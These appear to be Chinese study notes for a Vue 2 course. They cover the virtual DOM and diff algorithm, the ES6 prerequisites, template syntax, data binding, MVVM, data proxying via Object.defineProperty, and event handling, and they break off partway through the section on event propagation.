资源
目录
Vue 核心
Vue 组件化编程
使用 Vue 脚手架
Vue 中的 ajax
vuex
vue-router
Vue UI 组件库
正文
一、初识 Vue
001 课程简介
Vue2（4 年、70+ 更新）→Vue3（未来趋势）
Vue：
vue 基础
vue-cli
vue-router
vuex
element-ui
vue3
002 Vue 简介
Vue 是什么？
一套用于构建用户界面 的渐进式 Javascript 框架。
构建用户界面 ：将后端的数据转换为界面（DOM）显示
渐进式 ：Vue 可以自底向上逐层的应用
简单应用：只需一个轻量小巧的核心库
复杂应用：可以引入各式各样的 Vue 插件
谁开发的？
尤雨溪：yyx990803 (Evan You)
年份
描述
2013 年
受到 Angular 框架的启发，尤雨溪开发出了一款轻量框架 - Seed。
2014 年
Vue 正式对外发布，版本号0.8.0
2015 年
10 月 27 日，正式发布 Vue 1.0.0 Evangelion（新世纪福音战士）
2016 年
10 月 1 日，正式发布 Vue 2.0.0 Ghostin the Shell（攻壳机动队）
2020 年
9 月 18 日，正式发布 Vue 3.0.0 One Piece（海贼王）
后起之秀，生态完善，已然成为国内前端工程师必备技能。
Vue 的特点
采用组件化 模式，提高代码复用率、且让代码更好维护。

像网页中的各个组件的 DOM，用对应的 vue 文件来表示，vue 中集成了 Html、CSS、JS 中的内容。各个组件不会互相影响。
数据（persons） ：
1 2 3 4 5 [ { id: '001 ', name: '张三', age: 18 } , { id: '002 ', name: '李四', age: 19 } , { id: '003 ', name: '王五', age: 20 } ]
效果
001 - 张三 - 18
002 - 李四 - 19
003 - 王五 - 20
声明式编码 ，让编码人员无需直接操作 DOM，提高开发效率。
命令式编码 ：
1 2 3 4 5 6 7 8 9 10 let htmlStr =' // 遍历数据拼接 htm1 字符串 persons.forEach(p=>{ htmlstr +=`<li>${p.id}-${p.name}-${p.age}</li>` }); // 获取 list 元素 let list = document.getElementById(' list') // 修改内容(亲自操作 DOM) list.innerHTML = htmlstr
声明式编码
1 2 3 4 5 <ul id="list">
使用虚拟 DOM +优秀的 Diff 算法 ，尽量复用 DOM 节点。
原生 Javascript 实现将数据转换为视图：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <ul id ="list" > </ul > <script > let persons = [ {id :'001' , name :'张三' , age :18 }, {id :'002' , name :'李四' , age :19 }, {id :'03' , name :'王五' , age :20 } ] let htmlStr = '' persons.forEach (p => htmlstr +=`<li>${p.id} -${p.name} -${p.age} </li>` }); let list = document .getElementById ('list' ) list.innerHTML = htmlstr </script >
得到：
001 - 张三 - 18
002 - 李四 - 19
003 - 王五 - 20

原生 JavaScript 直接将数据转化到页面真实 DOM（Real-DOM）。如果数据有更新，需要重新渲染整个 DOM。

Vue 引入了虚拟 DOM（Virtual-DOM）的概念。
在 Vue 中，Diff （全称：差异算法 ）是指在更新视图时，Vue 通过对比新旧虚拟 DOM （Virtual DOM）树，计算出最小的变化差异，并通过这些差异来更新真实的 DOM。
1. 虚拟DOM的概念
虚拟 DOM（Virtual DOM）是 Vue 用来提高性能的一种技术。它通过在内存中创建一棵与实际 DOM 结构相对应的虚拟 DOM 树，然后在数据变化时，只对比新旧虚拟 DOM 的差异，最终只将最小的差异更新到真实的 DOM 中，而不是每次数据变化时都重新渲染整个 DOM。
2. Diff 算法的过程
当组件的状态或数据发生变化时，Vue 会生成新的虚拟 DOM，并与旧的虚拟DOM 进行对比。这个对比的过程就是 Diff 算法的核心。Diff 算法的主要目标是通过高效的方式找出新旧虚拟 DOM 树的差异，并最小化 DOM 更新的开销。
具体的 Diff 步骤可以分为以下几个关键过程：
节点类型比较 ：Vue 会首先判断新旧节点是否是同一个类型。如果是同类型节点，继续对子节点进行比较；如果不是同类型节点，直接替换整个节点。属性比较 ：对于同类型的节点，Vue 会逐一比较它们的属性（如 class、style 等）。只有当属性发生变化时，Vue 才会更新这些属性。子节点比较 ：Vue 使用一些优化策略来比较子节点。比如它会在相同的父节点下，使用一个双指针 的方式（前后两个指针分别指向新旧子节点），通过遍历来找出差异，避免不必要的遍历。Key 的使用 ：Vue 建议在列表渲染时为每个子元素添加一个 key，这样可以帮助 Vue 更高效地定位元素，减少不必要的重排和重绘。
3. Diff 算法的优化
Vue 中的 Diff 算法是经过优化的，主要通过以下几点提高性能：
最小化比较范围 ：在树的同一层级内，Vue 通过双指针 的方式来比较子节点，而不是完全重新遍历所有子节点。跳过不必要的更新 ：如果新旧节点内容完全相同，Vue 会跳过这个节点的更新。分层更新 ：Vue 会优先更新那些改变了的节点，而不需要重新渲染整个树。
4. 为什么需要 Diff 算法
DOM 操作通常是非常耗费性能的，尤其是在数据频繁变化的场景中。Vue 通过使用虚拟 DOM 和 Diff 算法，能够显著减少不必要的 DOM 操作，从而提升性能。
学习 Vue 之前要掌握的 JavaScript 基础知识？
ES6 语法规范
ES6（ECMAScript 2015）是 JavaScript 的一个重要更新版本，它带来了许多新的语法特性，能使代码更加简洁和高效。主要包括：
let 和 const ：let 用于声明可变的变量，const 用于声明常量。箭头函数 ：简化函数书写，并且箭头函数的 this 绑定是词法作用域，而非动态绑定。
1 const add = (a, b ) => a + b;
模板字符串 ：允许使用 ${} 插入变量，使字符串拼接更加直观。
1 2 let name = "Vue" ;console .log (`Welcome to ${name} ` );
解构赋值 ：可以快速从数组或对象中提取值，并赋予变量。
1 2 const [a, b] = [1 , 2 ]; const { name, age } = { name : "Alice" , age : 25 };
1 2 3 function greet (name = "Guest" ) {console .log (`Hello, ${name} !` );
扩展运算符（spread/rest） ：简化数组和对象的操作。
1 2 3 4 5 let arr = [1 , 2 , 3 ];let newArr = [...arr, 4 , 5 ]; const obj = { a : 1 , b : 2 };const newObj = { ...obj, c : 3 };
ES6 模块化
ES6 引入了模块化机制，通过 import 和 export 使得代码更易维护和重用。模块化的关键：
导出 ：模块中可以通过 export 导出变量、函数或类。
1 2 3 4 5 export const name = 'Alice' ;export function greet (console .log ("Hello!" );
导入 ：其他模块通过 import 来使用导出的内容。
1 2 3 4 import { name, greet } from './person.js' ;greet ();console .log (name);
包管理器
在现代 JavaScript 开发中，包管理器（如 npm 或 yarn）用于管理项目中的依赖包，安装、更新、卸载模块。
npm （Node Package Manager）：是 Node.js 默认的包管理器，帮助开发者下载并管理第三方库和工具。
1 2 3 npm init -y # 初始化一个新的 package.json 文件
yarn ：是 Facebook 推出的包管理工具，相比 npm 在性能和并发性上有些优化。
1 2 3 yarn init # 初始化项目
原型与原型链
JavaScript 是基于原型的语言，每个对象都有一个 prototype 属性，指向其原型对象。原型链是通过对象的 prototype 属性连接起来的链式结构。通过原型链可以实现继承。
原型 ：每个函数都有一个 prototype 属性，用于定义该函数创建的对象的共享属性和方法。
1 2 3 4 5 6 7 8 9 10 function Person (name ) {this .name = name;Person .prototype sayHello = function (console .log ("Hello, " + this .name );const person = new Person ('John' );sayHello ();
原型链 ：对象通过 __proto__ 访问原型，从而实现继承。
1 2 const obj = { name : 'Vue' };console .log (obj.__proto__ );
数组常用方法
在日常开发中，JavaScript 数组的方法非常重要。以下是一些常用的数组方法：
map()
1 2 const arr = [1 , 2 , 3 ];const result = arr.map (x =>2 );
filter()
1 2 const arr = [1 , 2 , 3 , 4 ];const result = arr.filter (x =>2 );
reduce()
1 2 const arr = [1 , 2 , 3 ];const sum = arr.reduce ((acc, curr ) => acc + curr, 0 );
forEach()
1 2 const arr = [1 , 2 , 3 ];forEach (x =>console .log (x));
Axios
Axios 是一个基于 Promise 的 HTTP 客户端，用于浏览器和 Node.js。它常用于向后端 API 发起请求。
1 2 3 4 5 6 7 axios.get ('https://api.example.com/data' )then (response =>console .log (response.data );catch (error =>console .error (error);
1 2 3 4 5 6 7 axios.post ('https://api.example.com/data' , { name : 'Vue' })then (response =>console .log (response.data );catch (error =>console .error (error);
Promise
Promise 是 JavaScript 中用于处理异步操作的对象，它有三种状态：pending（等待中）、resolved（已完成）、rejected（已拒绝）。
1 2 3 4 5 6 7 8 const promise = new Promise ((resolve, reject ) => {let success = true ;if (success) {resolve ('Success!' );else {reject ('Failed!' );
1 2 3 promisethen (result =>console .log (result)) catch (error =>console .log (error));
1 2 3 4 5 6 new Promise ((resolve, reject ) => {resolve (1 );then (value =>2 )then (value =>3 )then (value =>console .log (value));
003 Vue 官网使用指南
004 搭建 Vue 开发环境
从 安装 — Vue.js 获取 Vue2 的代码，得到文件：vue.js（开发版本，包含完整的警告和调试模式） 和 vue.min.js（上线时使用，删除了所有警告信息，体积更小）。

将下载好的文件导入到项目中，如此组织项目中的文件。
在 VSCode 下的空白 html 文件中，输入 ! 后再按 Tab 键即可快速生成模板，此后修改文件内容：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <!DOCTYPE html > <html lang ="en" > <head > <meta charset ="UTF-8" > <title > Document</title > <script src ="../js/vue.js" > </script > </head > <body > <script > Vue .config .productionTip = false </script > </body > </html >
安装 Vue DevTools 便于开发者调试：Vue.js devtools - Microsoft Edge Addons
此时 Vue 开发环境搭建完成。
005-006 Hello 小案例 & 分析
在 VSCode 中，输入 div#root 可以快速生成 <div id="root"></div>。
初识 Vue：
想让 Vue 工作，就必须创建一个 Vue 实例，且要传入一个配置对象；
root 容器里的代码依然符合 html 规范，只不过混入了一些特殊的 Vue 语法；
root 容器里的代码被称为 Vue 模板 ；
Vue 实例和容器是一一对应 的；
真实开发中只有一个 Vue 实例，并且会配合着组件一起使用；
{{}} 中的内容要写 js 表达式，且内容可以自动读取到 data 中的所有属性；
注意区分 js 表达式和 js 代码（语句）
表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方：
aa + bdemo(1)x === y ? 'a' : 'b'
js 代码（语句）
一旦 data 中的数据发生改变，那么模板中用到该数据的地方也会自动更新 。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <div id ="root" > <h1 > Hello, {{name.toUpperCase()}}</h1 > <h1 > I'm {{age}} years old.</h1 > </div > <script > Vue .config .productionTip = false new Vue ({ el : "#root" , data : { name : 'Gul’dan' , age : '18' } }) </script >
二、Vue 模板语法
007 模板语法
Vue 模板语法有两大类：
插值语法
功能：用于解析标签体内容 。
写法：{{xxx}}，xxx 是 js 表达式，且可以直接读取到 data 中的所有属性。
指令语法
功能：用于解析标签 （包括：标签属性、标签体内容、绑定事件……）
举例：v-bind:href="xxx" 或简写为 :href="xxx"，xxx 同样要写 js 表达式，且可以直接读取到 data 中的所有属性。
备注：Vue 中有很多的指令，且形式都是：v-????，此处我们只是拿 v-bind 举个例子。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <div id ="root" > <h1 > Hello, {{player.name}}</h1 > <a :href ="url" > 点击打开百度！</h1 > <a v-bind:href ="url" > 点击打开百度！</h1 > </div > <script > Vue .config .productionTip = false new Vue ({ el : '#root' , data : { player :{ name : 'Gul’dan' }, url : 'http://www.baidu.com' } }) </script >
三、数据绑定
008 数据绑定
Vue 中有两种数据绑定的方式：
单向绑定 v-bind：数据只能从 data 流向页面。
双向绑定 v-model：数据不仅能从 data 流向页面，还可以从页面流向 data。
备注:
双向绑定一般都**应用在表单类元素（输入类元素）**上（如：input、select 等）
v-model:value 可以简写为 v-model，因为 v-model 默认收集的就是 value 值。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <div id ="root" > <input type ="text" :value ="name" > <br /> <input type ="text" v-model:value ="name" > <br /> </div > <script > Vue .config .productionTip = false new Vue ({ el : '#root' , data : { name : '123456' } }) </script >

修改上面输入框的值不会更改 Vue 实例中的 data；
修改下面输入框的值会更改 Vue 实例中的 data，进而影响上面输入框的值。
四、el 与 data 的两种写法
009 el 与 data 的两种写法
el 的两种写法
data 有两种写法
如何选择：目前哪种写法都可以，以后学习到组件时，data 必须使用函数式，否则会报错。
一个重要的原则：由 Vue 管理的函数，一定不要写箭头函数，一旦写了箭头函数，this 就不再是 Vue 实例了（而是 window）。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <div id ="root" > <h1 > 你好，{{name}}</h1 > </div > <script > Vue .config .productionTip = false const v = new Vue ({ data ( return {name : '古尔丹' } } }) setTimeout (() => { v.$mount('#root' ) }, 1000 ) </script >
五、MVVM 模型
010 理解 MVVM
在软件开发中，MVVM（Model-View-ViewModel） 是一种软件架构模式，广泛应用于前端开发，尤其是在以数据驱动的用户界面（UI）中，比如 WPF、Xamarin 和前端框架（如 Vue、Angular 等）。它通过将用户界面逻辑和业务逻辑进行分离，简化了应用的状态管理和数据绑定。MVVM 模式包含三个主要组件：
Model（模型）
Model 是应用程序的数据层，通常包含业务逻辑和数据结构。它负责从数据源（如数据库、API 等）获取数据，并提供相关的业务逻辑处理。View（视图）
View 是用户界面层，负责显示数据和接收用户的交互。View 通常包含界面布局和样式文件，如 HTML 或 XAML。它的职责是呈现数据，但不负责逻辑处理。ViewModel（视图模型）
ViewModel 充当 View 和 Model 之间的桥梁。它包含 UI 所需的数据和状态，监听用户的输入并更新 Model，同时将 Model 的数据转换成 View 可使用的形式。View 和 ViewModel 之间一般通过数据绑定来实现通信。
MVVM 的关键特点
双向数据绑定
在 MVVM 中，View 和 ViewModel 之间的数据绑定是双向的：View 绑定到 ViewModel 的属性，ViewModel 的属性值改变时，View 会自动更新；反之，用户在 View 中的输入会更新 ViewModel 中的属性。这种双向绑定极大地减少了手动更新 UI 的需求。命令模式
ViewModel 提供命令（Commands），由 View 绑定，用于处理用户的操作（如点击按钮）。通过命令，ViewModel 可以与业务逻辑进行交互，而无需让 View 直接处理事件。可测试性
MVVM 模式使得 ViewModel 可以与 UI 分离，便于单元测试。因为 ViewModel 不直接依赖 View，可以在不使用 UI 的情况下进行逻辑测试。

M：模型 (Model)：对应 data 中的数据
V：视图 (View)：模板
VM：视图模型 (ViewModel)：Vue 实例对象

观察发现:
data 中所有的属性，最后都出现在了 vm 身上。
vm 身上所有的属性及 Vue 原型上所有属性，在 Vue 模板中都可以直接使用。

六、数据代理
011 Object.defineProperty
Object.defineProperty 是 JavaScript 中的一个方法，允许你精确控制对象属性的行为。它在定义或修改对象属性时提供了额外的控制，如设置属性的可枚举性、可配置性和可写性。与直接赋值方式不同，Object.defineProperty 可以定义“属性描述符”（property descriptors），包括数据描述符和访问器描述符。其基本语法如下：
1 Object .defineProperty (obj, prop, descriptor)
参数说明 ：
obj：要在其上定义属性的对象。prop：要定义或修改的属性名称（字符串）。descriptor：描述属性行为的对象。
属性描述符 ：
数据描述符 （Data Descriptor）：包含值和一些标志，指定属性的行为。常见属性：
value：属性的值（默认是 undefined）。writable：布尔值，表示属性是否可被赋值运算符修改（默认是 false）。enumerable：布尔值，表示属性是否可枚举（即能否被 for...in 或 Object.keys 枚举）（默认是 false）。configurable：布尔值，表示属性描述符是否可以被删除或进一步修改（默认是 false）。
访问器描述符 （Accessor Descriptor）：定义 getter 和 setter 函数。
get：函数，作为属性的 getter（读取属性值时调用）。默认是 undefined。set：函数，作为属性的 setter（写入属性值时调用）。默认是 undefined。enumerable 和 configurable：同数据描述符。
在控制台中测试：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 let number = 18 let person = {name : '张三' ,sex : '男' ,Object .defineProperty (person, 'age' , {get (console .log ('有人读取 age 属性了' )return numberset (value ) {console .log ('有人修改了 age 属性，且值是' , value)

012 理解数据代理
数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）
1 2 3 4 5 6 7 8 9 10 11 let obj = {x :100 }let obj2 = {y :200 }Object .defineProperty (obj2, 'x' , {get (return obj.x set (value ) {x = value

此时，修改 obj2.x 的值也会影响 obj.x 的值。
013 Vue 中的数据代理
Vue 中用到了数据代理技术，便于开发者编写代码。

访问/修改 vm.name 的值相当于访问/修改 vm._data.name 的值。
七、事件处理
014 事件处理
事件的基本使用：
使用 v-on:xxx 或 @xxx 绑定事件，其中 xxx 是事件名；
事件的回调需要配置在 methods 对象中，最终会在 vm 上；
methods 中配置的函数，不要用箭头函数！否则 this 就不是 vm 了；methods 中配置的函数，都是被 vue 所管理的函数，this 的指向是 vm 或组件实例对象；@click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参；

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <div id ="root" > <h2 > 欢迎来到 {{name}} 学习</h2 > <button @click ="showInfo1" > 点我提示信息 1（不传参）</button > <button @click ="showInfo2($event, 66)" > 点我提示信息 2（传参）</button > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : 'Vue' }, methods : { showInfo1 (event ) { alert ('你好啊朋友！' ) }, showInfo2 (event, number ) { console .log (event, number) alert ('圣光会制裁你！' ) } } }) </script >
015 事件修饰符 & 017 事件总结
Vue 中的事件修饰符:
prevent：阻止默认事件（常用）；stop：阻止事件冒泡（常用）；once：事件只触发一次（常用）；capture：使用事件的捕获模式；self：只有 event.target 是当前操作的元素时才触发事件；passive：事件的默认行为立即执行，无需等待事件回调执行完毕。
在 JavaScript 中，事件捕获（Event Capturing）和事件冒泡（Event Bubbling）是事件传播的两个阶段，用于描述事件在 DOM 中的传递顺序。它们分别定义了事件在触发时如何从一个元素传递到另一个元素。
事件传播在 DOM 中经过以下三个阶段：
